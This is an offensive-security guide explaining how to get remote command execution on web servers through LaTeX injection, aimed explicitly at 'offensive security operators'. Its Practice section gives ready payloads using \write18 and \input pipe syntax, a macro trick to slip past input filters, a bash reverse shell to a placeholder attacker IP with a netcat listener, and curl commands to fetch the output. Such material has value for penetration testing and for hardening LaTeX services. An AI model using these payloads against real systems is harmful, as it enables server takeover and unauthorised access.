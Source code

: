 ```yaml
---
title: Command Execution via LaTeX Injection Techniques
description: Learn to exploit LaTeX injection for command execution in web applications.
keywords:
- LaTeX injection
- command execution
- shell-escape
- reverse shell
- "\t2write18"
---
```


# Command Execution

## Context

The aim of this guide is to equip offensive security operators with the skills required to perform remote command execution through LaTeX injection vulnerabilities in web server applications. Readers are expected to understand the structure and compilation process of LaTeX documents, basic shell command syntax, general command execution contexts in server-side environments, and the fundamentals of LaTeX injection attacks.

## Theory

### LaTeX Shell-Escape Mechanism

The LaTeX primitive `\write18` is a powerful feature that allows the execution of shell commands during the document compilation process. For the execution of these commands, shell-escape must be enabled, usually through a `-shell-escape` flag during compilation. If unsanitized, user-controlled LaTeX input can leverage this functionality to execute arbitrary commands on the server, presenting a substantial security risk.

### Command Injection Vectors in LaTeX

Attackers can inject commands using LaTeX-specific syntax to exploit vulnerabilities. For instance, `\write18{<command>}` or its variant `\immediate\write18{<command>}` can be injected into LaTeX source to execute shell commands. Another vector is the misuse of `\input{|<command>}` to include the output of shell commands directly into the document. To evade basic input sanitation filters, attackers can obfuscate their payloads using LaTeX macros or encoding techniques.

### Reverse Shells and Data Exfiltration via LaTeX

With command execution capabilities, attackers can establish outbound connections, such as reverse shells, if the network permits such activity. The LaTeX command execution context can be exploited to encode reverse shell payloads in base64 or directly in the `\write18` syntax, allowing attackers to interactively control the compromised host.

### Detection and Exploitation Preconditions

Successful exploitation of these vulnerabilities requires that the target LaTeX service is configured to compile user-supplied documents with shell-escape enabled. Additionally, the malicious LaTeX must pass through any input sanitization process to reach the compilation stage.

## Practice

### Direct Command Execution via \write18

- **Payload**
  ```latex
  \immediate\write18{id > /tmp/latex_rce.txt}
  ```
  This exploits the `\write18` command to execute `id` and write its output to `/tmp/latex_rce.txt`.
  
- **Trigger and Output Retrieval**
  - Ensure the target server processes and compiles the injected document using LaTeX.
  - Use the following command to retrieve output:
    ```bash
    curl http://<target>/files/latex_rce.txt
    ```

Expected Outcome: Successful execution of arbitrary shell commands on the LaTeX server.

### Command Execution via \input Pipe Syntax

- **Payload**
  ```latex
  \input|ls / > /tmp/latex_ls.txt|
  ```
  The command `ls /` is executed, and its output is written to the specified file.
  
- **Trigger and Output Retrieval**
  - Compile the document containing the injected LaTeX on the server.
  - Retrieve the command output using:
    ```bash
    curl http://<target>/files/latex_ls.txt
    ```

Expected Outcome: Execution of shell commands using LaTeX pipe syntax.

### Reverse Shell via \write18

- **Payload**
  ```latex
  \immediate\write18{bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'}
  ```
  This command initiates a reverse shell directed at the attacker's IP and port.
  
- **Preparation and Exploitation**
  - Start a listener on the attacker's machine:
    ```bash
    nc -lvnp <attacker_port>
    ```
  - Compile the malicious LaTeX file on the target, enabling the reverse shell connection.

Expected Outcome: The attacker gains interactive shell access to the compromised server for further exploitation.

### Obfuscated Payload to Bypass Filters

- **Payload**
  ```latex
  \def\x{\immediate\write18{whoami > /tmp/obf.txt}}\x
  ```
  This payload uses a macro to bypass pattern matching defenses.
  
- **Execution and Retrieval**
  - Ensure document compilation on the target server.
  - Retrieve output by accessing:
    ```bash
    curl http://<target>/files/obf.txt
    ```

Expected Outcome: Execution of commands in spite of basic input filtering, highlighting the need for effective sanitization strategies.

## Tools

- **curl**
- **netcat**